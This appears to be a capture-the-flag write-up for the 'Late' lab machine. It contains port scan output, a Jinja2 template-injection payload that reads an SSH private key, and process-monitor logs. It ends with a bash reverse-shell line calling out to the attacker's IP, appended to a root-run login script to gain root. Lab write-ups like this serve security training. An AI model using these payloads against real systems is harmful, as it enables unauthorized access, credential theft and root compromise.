

# Late

nmap

```
Running command: sudo masscan -e tun0 -p1-65535,U:1-65535 --max-rate 500 --interactive 10.129.77.197
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-07-05 17:33:38 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.129.77.197
Discovered open port 22/tcp on 10.129.77.197

Running command: sudo nmap -A -p22,80 10.129.77.197
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-05 18:42 BST
Nmap scan report for late.htb (10.129.77.197)
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 (94%), Linux 5.4 (94%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.0 - 5.3 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.03 ms 10.10.14.1
2   30.49 ms late.htb (10.129.77.197)
```

on the website we´ll find a hyperlink to images.late.htb.

Visiting iamges.late.htb we are presented with an ocr solution, hinting the usage of flask.

Crafting a simple SSTI Payload as an image will confirm the vuln:



After a while of trial and error i found out that "Cascadia Mono Light" works best.

Payload for extracting the ssh private key:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
```

Saving it locally and loggin into ssh via:

```
ssh svc_acc@late.htb -i ~/svc_acc_id_rsa
```

Running common local privesc doesnt really show any funky things, so i ran pspy64
to recon for commands that are executed on the machine.

```
2022/07/05 19:25:01 CMD: UID=0    PID=4847   | /bin/sh -c /root/scripts/cron.sh
2022/07/05 19:25:01 CMD: UID=0    PID=4846   | /usr/sbin/CRON -f
2022/07/05 19:25:01 CMD: UID=0    PID=4849   | chattr -a /usr/local/sbin/ssh-alert.sh
2022/07/05 19:26:01 CMD: UID=0    PID=4859   | /bin/bash /root/scripts/cron.sh
2022/07/05 19:26:01 CMD: UID=0    PID=4858   | /bin/sh -c /root/scripts/cron.sh
2022/07/05 19:26:01 CMD: UID=0    PID=4857   | /usr/sbin/CRON -f
2022/07/05 19:26:01 CMD: UID=0    PID=4864   | chown svc_acc:svc_acc /usr/local/sbin/ssh-alert.sh
```

ssh-alert.sh has following contents:

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Seems like a script to notify when a user logs in via ssh.
We can confirm this by running pspy and logging into ssh.

```
2022/07/05 19:29:18 CMD: UID=0    PID=4915   | sshd: svc_acc [priv]
2022/07/05 19:29:18 CMD: UID=0    PID=4919   | /usr/sbin/sendmail root@late.htb
2022/07/05 19:29:18 CMD: UID=0    PID=4920   | sendmail: MTA: 265JTIwi004920 localhost.localdomain [127.0.0.1]: DATA
2022/07/05 19:29:19 CMD: UID=0    PID=4921   | sendmail: MTA: ./265JTIwi004920 from queu
```

Whats also notable is the chattr command from earlier:

```
2022/07/05 19:25:01 CMD: UID=0    PID=4849   | chattr -a /usr/local/sbin/ssh-alert.sh
```

While weve seen a chown to our account we arent able to open the file for writing, only for appending.

With a quick payload appended:

```
echo 'bash -i >& /dev/tcp/10.10.14.104/8082 0>&1' >> ssh-alert.sh
```

Loggin into ssh gives us our reverse shell as root.
